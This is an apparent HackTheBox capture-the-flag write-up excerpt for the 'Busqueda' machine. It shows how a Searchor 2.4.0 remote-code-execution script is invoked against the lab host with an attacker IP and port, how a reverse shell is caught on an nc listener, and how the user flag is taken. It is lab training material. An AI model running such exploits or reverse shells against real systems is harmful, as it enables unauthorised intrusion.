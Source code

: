 
## Exploit 

- Try the exploit code 
- The message shows the usage for this RCE code
```
python searchor-2_4_0_RCE.py
```
![image](https://github.com/popyue/HackTheBox/blob/main/machine/Busqueda/BusquedaImage/Exploit%20-%20Execute%20searchor%20RCE.png)

- Following the usage guide to execute it again
```
python searchor-2_4_0_RCE.py searcher.htb 10.10.16.107 1337
```
![image](https://github.com/popyue/HackTheBox/blob/main/machine/Busqueda/BusquedaImage/Exploit%20-%20Execute%20exploit%20code%20for%20searchor%20RCE.png)

- Check nc listener, it will get reverse shell
![image](https://github.com/popyue/HackTheBox/blob/main/machine/Busqueda/BusquedaImage/Exploit%20-%20nc%20get%20rev%20shell.png)

- Confirm the current user, its 'svc'
```
id 
whoami
```
- Get user flag
![image](https://github.com/popyue/HackTheBox/blob/main/machine/Busqueda/BusquedaImage/Exploit%20-%20user%20flag.png)
